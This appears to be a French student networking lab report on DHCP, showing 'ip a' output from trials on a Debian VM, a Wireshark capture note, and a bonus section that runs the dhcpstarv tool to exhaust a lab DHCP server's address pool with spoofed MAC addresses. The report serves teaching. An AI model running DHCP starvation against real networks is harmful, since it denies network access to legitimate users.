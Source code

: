 
## Essai 2 :
    root@debian:/home/debian# ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default     qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host noprefixroute
           valid_lft forever preferred_lft forever
    2: ens4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group     default qlen 1000
        link/ether 0c:15:57:ed:00:00 brd ff:ff:ff:ff:ff:ff
        altname enp0s4
        inet 10.1.1.16/24 brd 10.1.1.255 scope global dynamic ens4
           valid_lft 597sec preferred_lft 597sec
        inet6 fe80::e15:57ff:feed:0/64 scope link
           valid_lft forever preferred_lft forever

## Essai 3 :
    root@debian:/home/debian# ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default     qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host noprefixroute
           valid_lft forever preferred_lft forever
    2: ens4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group     default qlen 1000
        link/ether 0c:07:b3:92:00:00 brd ff:ff:ff:ff:ff:ff
        altname enp0s4
        inet 10.1.1.17/24 brd 10.1.1.255 scope global dynamic ens4
           valid_lft 546sec preferred_lft 546sec
        inet6 fe80::e07:b3ff:fe92:0/64 scope link
           valid_lft forever preferred_lft forever

## 🌞 Wireshark !

Capture sous le nom : race.pcapng

# BONUS : DHCP starvation
    apt update
#
    apt install dhcpstarv
#
    root@debian:/home/debian# dhcpstarv -i ens4
    [   76.025833] device ens4 entered promiscuous mode
    11:28:14 12/03/24: no renewal time option in DHCPOFFER
    11:28:14 12/03/24: got address 10.1.1.19 for 00:16:36:51:e9:0b from 10.1.1.253
    11:28:15 12/03/24: no renewal time option in DHCPOFFER
    11:28:15 12/03/24: got address 10.1.1.20 for 00:16:36:d6:34:f3 from 10.1.1.253
    11:28:16 12/03/24: no renewal time option in DHCPOFFER
    11:28:16 12/03/24: got address 10.1.1.21 for 00:16:36:4a:14:65 from 10.1.1.253
    11:28:17 12/03/24: no renewal time option in DHCPOFFER
    11:28:17 12/03/24: got address 10.1.1.22 for 00:16:36:30:36:01 from 10.1.1.253
    11:28:18 12/03/24: no renewal time option in DHCPOFFER
    11:28:18 12/03/24: got address 10.1.1.23 for 00:16:36:b3:5a:56 from 10.1.1.253
    11:28:19 12/03/24: no renewal time option in DHCPOFFER
    11:28:19 12/03/24: got address 10.1.1.24 for 00:16:36:21:e4:ff from 10.1.1.253
    11:28:20 12/03/24: no renewal time option in DHCPOFFER
    11:28:20 12/03/24: got address 10.1.1.25 for 00:16:36:f0:3d:36 from 10.1.1.253
    11:28:21 12/03/24: no renewal time option in DHCPOFFER